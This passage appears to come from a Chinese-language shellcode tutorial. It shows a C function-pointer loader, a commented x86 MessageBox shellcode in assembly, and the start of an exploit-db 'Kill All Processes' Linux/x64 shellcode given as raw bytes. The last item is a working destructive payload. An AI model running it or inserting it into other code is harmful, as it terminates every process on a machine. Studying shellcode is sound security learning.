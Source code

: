 ```c
	(int)(*func)();
}
```
将代码复制并将.cpp改成.c,然后运行，成功跳出弹窗                               
![](./img/messagebox.png)                                      
2. 汇编语言
```bash
      sub sp,0x454   # 给栈区分配一段空间
      xor ebx,ebx  # 将ebx清零
	  push ebx
	  push 0x61626364   # 输出的元素入栈
	  push 0x65666768   
	  mov  eax,esp   # 将栈顶指针赋值给eax
	  push ebx
	  push eax
	  push eax
	  push ebx
	  mov  eax,0x77d507ea
	  call eax
```
基本逻辑
* 先找到 Kernel32.dll
* 再push MessageBox()及其参数
* call调用
* 如果需要退出，再加载Exit（这个实例是没有的）
### [Linux/x64 - Kill All Processes Shellcode (11 bytes)](https://www.exploit-db.com/shellcodes/46492)
1. 将代码保存为killprocess.c
```bash
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x6a\x3e\x58\x6a\xff\x5f\x6a\x09\x5e\x0f\x05";

```